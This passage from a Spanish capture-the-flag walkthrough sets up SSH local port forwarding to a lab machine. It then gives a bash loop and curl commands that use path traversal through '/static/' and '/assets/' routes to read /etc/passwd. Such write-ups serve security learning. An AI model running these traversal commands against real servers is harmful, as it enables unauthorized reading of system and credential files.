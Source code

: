 Una vez descargado, iniciaremos la explotación de esta vulnerabilidad



## SSH Local Port Forwarding

Como podemos solamente acceder al servicio HTTP desde la máquina víctima, haremos que ese puerto `8080` sea alcanzable por muestra máquina atacante con `ssh`

~~~ bash
# Ejecutamos en nuestra máquina atacante
ssh -L 8080:localhost:8080 rosa@10.10.11.38
~~~


## Path Traversal

Según el `exploit`, podemos usar el comando `curl` para recorrer directorios de la siguiente forma

~~~ bash
#!/bin/bash

url="http://localhost:8081"
string="../"
payload="/static/"
file="etc/passwd" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
~~~

- Se envía una solicitud a una ruta `/static/` e intenta abrir el archivo `/etc/passwd`, y en cada intento retrocede un directorio hasta abrir el archivo solicitado

~~~ bash
http://localhost:8080/static/etc/passwd
http://localhost:8080/static/../etc/passwd
http://localhost:8080/static/../../etc/passwd
~~~

Como necesitamos una ruta para poder realizar la explotación, haremos fuzzing para descubrir directorios y probaremos solicitudes maliciosas contra ellos. Vemos que existe una ruta `assets`, podemos intentar hacer la solicitud a esta ruta para intentar leer el archivo `/etc/passwd`. Ejecutaremos el siguiente comando

~~~ bash
curl --path-as-is http://localhost:8080/assets/../../../etc/passwd
~~~
